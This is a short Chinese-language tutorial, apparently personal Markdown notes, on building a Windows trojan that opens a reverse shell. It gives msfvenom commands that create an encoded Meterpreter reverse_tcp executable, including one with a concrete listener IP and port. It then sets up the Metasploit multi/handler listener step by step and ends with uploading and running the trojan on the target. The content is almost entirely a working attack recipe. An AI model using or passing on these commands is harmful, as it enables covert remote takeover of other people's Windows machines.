 生成木马反弹shell（Windows）

# 一、环境准备

1. MSF-Metasploit Framework
2. 一台windiows靶机

# 二、开始生成木马

1. 使用msfvenom生成木马
2. 终端内输入:   msfvenom -p windows/meterpreter_reverse_tcp LHOST={监控IP} LPORT={监控端口} -e x86/shikata_ga_nai  -f exe -o  new.exe -i 5

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.38  LPORT=4567  -e x86/shikata_ga_nai  -f exe -o  shell.exe  -i 5

# 三、配置监控

1. 启动msf   终端内输入：msfconsole 启动msf
![[1642501758409.png]]

2. 载入监控模块  msf中输入： use exploit/multi/handler

   ![[1642501831818.png]]

3. 加载payload  msf终端中输入：set payload windows/meterpreter/reverse_tcp

4. 配置payload  msf终端中输入：show options

5. 配置payload监控IP msf终端中输入： set  lhost  {监控IP}

6. 配置payload监控端口  msf终端中输入：set lport  {监控端口} （注意这里要和木马配置时使用的端口相同&如果使用内网穿透服务填写转发后的端口）

7. 检查payload配置  msf终端中输入：show options ![1642501934250](1642501934250.png)

8. 执行监控  msf终端中输入： run

# 四、攻击利用

1. 将木马上传到靶机
2. 在靶机上执行木马
3. 完成攻击利用![1642501969373](1642501969373.png)